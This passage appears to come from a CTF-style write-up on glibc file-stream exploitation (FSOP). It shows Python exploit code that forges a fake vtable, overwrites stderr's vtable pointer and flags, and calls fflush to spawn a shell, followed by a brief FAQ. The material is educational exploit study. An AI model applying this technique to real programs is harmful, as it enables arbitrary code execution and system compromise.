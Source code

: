 ```py
#Now we make a fake vtable and replace it in stderr, then trigger a call to it
stderr = libc_base+0x21a6a0

def make_fake_vtable(address):
    unreachable_addr = 0x4011f6

    #First two entries in a vtable are always 0
    for i in range(0,2):
        write(address,0x0)
        address+=8
    
    #Just fill the vtable with pointers to unreachable.
    for i in range(0,19):
        write(address,unreachable_addr)
        address+=8

make_fake_vtable(0x404800)
#Change the pointer to our vtable in stderr
write(stderr+216, 0x404800)
#Make sure it triggers a check in the vtable
write(stderr,0xfbad1800)

#Trigger it
fflush()
```

If everything worked correctly this should spawn a shell! And it sure did! We've successfully re-enabled FSOP!

![shell](./images/shell.png)

## FAQ
**Q:**

Can I have a full PoC just written in C?

**A:**

Yes. I decided to not make the writeup with writing it in C, as the symbols for `_IO_vtable_check` and `IO_accept_foreign_vtables` are both missing when compiling GLIBC.
